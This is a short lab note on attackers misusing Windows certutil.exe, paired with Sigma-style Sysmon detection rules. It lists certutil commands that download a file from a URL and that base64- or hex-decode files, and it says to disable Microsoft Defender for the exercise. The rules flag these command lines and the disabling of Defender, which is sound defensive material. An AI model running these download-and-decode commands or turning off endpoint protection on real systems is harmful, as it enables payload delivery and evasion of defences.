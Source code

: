 
### Abusing certutil.exe
Let's try how certutil.exe can be missused by the attackers. 
ref: https://lolbas-project.github.io/lolbas/Binaries/Certutil/

Note: For this Excercies we need to disable the microsoft defender for endpoint. Otherwise all the commandline will be blocked. 

1) Download the a file
    `certutil.exe -urlcache -f https://www.example.org/file.exe file.exe`

    `certutil.exe -verifyctl -f https://www.example.org/file.exe file.exe`

    `certutil.exe -URL https://www.example.org/file.exe`

    If path is not specified it will be stored in the %LOCALAPPDATA%low\Microsoft\CryptnetUrlCache\Content\[hash]

2) Encode and Decode the data

    `certutil -encode file.ext file.base64`

    `certutil -decode file.base64 file.ext`

    `certutil -decodehex file.hex file.ext`

#### Detection Logics: 

Detect Execution of certutil and it's writing the files to the disk. (usually the certs are downloaded, but any other files need to be flagged)
```
    detection:
        condition: Selection_1 and Selection_2
        Selection_1:
            ProviderName|all:
            - Microsoft-Windows-Sysmon
            EventID|all:
            - '1'
            Image|endswith:
            - certutil.exe
            - certutil
        Selection_2:
            CommandLine|contains:
            - 'urlverify '
            - 'urlcache '
```

certutil file is used to encode and decode files/data

```
    detection:
        condition: Selection_1 and Selection_3
        Selection_1:
            ProviderName|all:
            - Microsoft-Windows-Sysmon
            EventID|all:
            - '1'
            Image|endswith:
            - certutil.exe
            - certutil
        Selection_3:
            CommandLine|contains:
            - 'decode '
            - 'decodehex '
```
```
        detection:
        condition: Selection_1 and Selection_3
        Selection_1:
            ProviderName|all:
            - Microsoft-Windows-Sysmon
            EventID|all:
            - '1'
            Image|endswith:
            - certutil.exe
            - certutil
        Selection_3:
            CommandLine|contains:
            - 'encode '
```

Certutil making internet connections, (usually it makes connections to download other chained certs, crls etc.)
    TODO:_

### Additional Rules: Defender Disabled

```
    detection:
        condition: Selection_1 and ( Selection_2 or Selection_3 or Selection_4 )
        Selection_1:
            ProviderName|all:
            - Microsoft-Windows-Sysmon
            EventID|all:
            - '13'
            - '12'
        Selection_2:
            EventData|contains:
            - SECURITY_PRODUCT_STATE_SNOOZED
        Selection_3:
            RuleName|contains:
            - 'T1089,Tamper-Defender'
        Selection_4:
            TargetObject|all:
            - >-
                HKLM\SOFTWARE\Microsoft\Windows Defender\Real-Time
                Protection\DisableRealtimeMonitoring
            EventType|all:
            - SetValue
            Details|all:
            - DWORD (0x00000001)
```
